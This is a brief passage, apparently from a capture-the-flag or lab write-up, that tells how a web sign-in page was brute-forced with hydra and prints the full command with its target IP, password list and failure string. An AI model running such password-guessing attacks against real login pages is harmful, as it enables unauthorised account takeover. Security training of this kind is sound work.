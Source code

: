 Using hydra we tried to bruteforce the sign in page and got access , the hydra command was : 

hydra -l admin -P 100k-most-used-passwords-NCSC.txt -s 80 -f -V 172.18.15.123 http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F="images/WrongAnswer.gif""







